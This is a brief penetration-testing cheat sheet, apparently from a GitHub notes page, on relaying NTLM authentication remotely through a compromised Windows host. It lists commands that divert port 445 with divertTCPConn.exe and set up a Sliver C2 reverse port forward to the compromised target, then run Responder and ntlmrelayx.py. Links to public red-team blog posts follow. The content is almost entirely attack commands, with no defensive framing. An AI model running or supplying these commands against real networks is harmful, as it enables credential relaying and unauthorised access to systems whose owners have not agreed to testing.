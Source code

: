 # Remote NTLM Relaying

```
divertTCPConn.exe 445 8445
```

## Sliver C2

```
rportfwd add -r 127.0.0.1:445 -b <compromised_target_IP>:8445
```

```
$ sudo responder -I lo

$ sudo ntlmrelayx.py -ip 127.0.0.1
```

---
## References

- [DiabloHorn: Remote NTLM relaying through meterpreter on Windows port 445](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)

- [Rasta Mouse: NTLM Relaying via Cobalt Strike](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

- [Pentester's Promiscous Notebook: NTLM Relay](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlm-relay)